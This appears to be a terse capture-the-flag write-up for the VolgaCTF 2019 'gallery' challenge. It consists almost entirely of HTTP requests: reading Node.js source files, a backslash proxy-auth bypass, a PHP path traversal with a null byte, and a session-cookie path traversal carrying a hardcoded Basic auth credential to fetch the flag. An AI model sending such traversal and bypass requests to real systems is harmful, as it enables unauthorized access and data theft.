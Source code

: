 **Node.js source code disclosure**
```
http://gallery.q.2019.volgactf.ru/package.json
http://gallery.q.2019.volgactf.ru/js/index.js
http://gallery.q.2019.volgactf.ru/js/config.js
```

**Node.js proxy auth bypass**
```
GET /api\images?year=2018 HTTP/1.1
Host: gallery.q.2019.volgactf.ru
```

**PHP Directory Listing **
```
GET /api\images?year=../../../../../../%00 HTTP/1.1
Host: gallery.q.2019.volgactf.ru
```

**Node.js session-file-store Path Traversal**
```
GET /api/flag HTTP/1.1
Host: 142.93.204.169
Authorization: Basic dm9sZ2FjdGY6bmc5OGhhbnNkam5hc29pZmpuYW9zZmlu
Cookie: SESSION=s:../../volga_adminpanel/sessions/euzb7bMKx-5F29b2xNobGTDoWXmVFlEM.KrY7Bi6sZtBB/J4sPnVj5QkDEuBu/0QelFQQqAV6yh4;
```